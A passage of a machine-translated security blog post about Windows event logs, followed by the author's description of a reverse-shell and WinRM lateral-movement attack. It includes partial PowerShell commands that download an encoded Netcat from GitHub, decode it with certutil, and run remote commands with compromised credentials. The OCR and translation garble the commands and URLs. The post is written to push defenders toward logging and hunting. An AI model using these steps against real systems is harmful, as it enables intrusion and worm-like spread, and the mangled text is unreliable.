 *   微软-视窗-视窗远程管理/操作
*   微软-视窗-WMI-活动/操作
*   微软视窗分布式通讯

我们刚刚讨论的是最常见和最基本的攻击。从大量滥用上述服务的例子来看，如果 Windows 防火墙限制他们的互联网访问，大多数服务都会受到阻碍。这是我以前接触过的东西，这里:[https://secure logs . com/2020/04/26/hacking-with-powershell-malware/](https://securethelogs.com/2020/04/26/hacking-with-powershell-malware/)

我越是了解并试图理解攻击者是如何取胜的，就越是清楚审计和监控是关键。一个好的攻击者总是会找到一种方法，但只要有某种面包屑，你就有机会理解它是如何成功的。

如果你正在读这篇文章，而你从未看过这些事件，我强烈建议你去打猎。您可能找不到攻击者，但了解您环境中的正常情况是有好处的。

找点乐子…

我想我会建立一个攻击，并结合不同的技术来获得一个反向外壳。这个我叫 NetCatnRun，这里就不分享了。

该脚本基本上下载了一个编码的 Netcat，并向攻击者的机器查询监听端口。一旦它有了一个，它就等待，然后在那个端口上建立一个反向 shell。

一旦完成，使用我的“受损帐户”，它扫描子网打开 WinRm 端口，并运行测试，看看它是否可以连接。如果可以，它会在远程机器上重新开始这个过程。当击中 X.X.X.254 时，这就结束了。如果我想进一步复制并创建一个蠕虫，我总是可以将 IP 范围扩展到/24 以上。

[https://videopress.com/v/scOdx0VG?resizeToParent=true&cover = true&preload content = metadata](https://videopress.com/v/scOdx0VG?resizeToParent=true&cover=true&preloadContent=metadata)

当 Defender 运行并使用上面提到的一些服务时，这种攻击是成功的。

*Start-bits transfer-Source*'*https://raw . githubusercontent . com/secure logs/Powershell/master/Tools/NC . exe '-Destination $ env:TEMP \ NC . exe . txt*

*certutil-decode $ env:TEMP \ NC . exe . txt $ env:TEMP \ NC . exe*

*$ is live = Test-ws man $ current IP-Credential $ my Credential-authentic ation Negotiate-error action*

*silently continue invoke-Command-computer name $ current tip-Credential $ my Credential-script block {………………。}*

## 来自 Infosec 的报道:Infosec 每天都有很多内容，很难跟上。[加入我们的每周简讯](https://weekly.infosecwriteups.com/)以 5 篇文章、4 个线程、3 个视频、2 个 Github Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！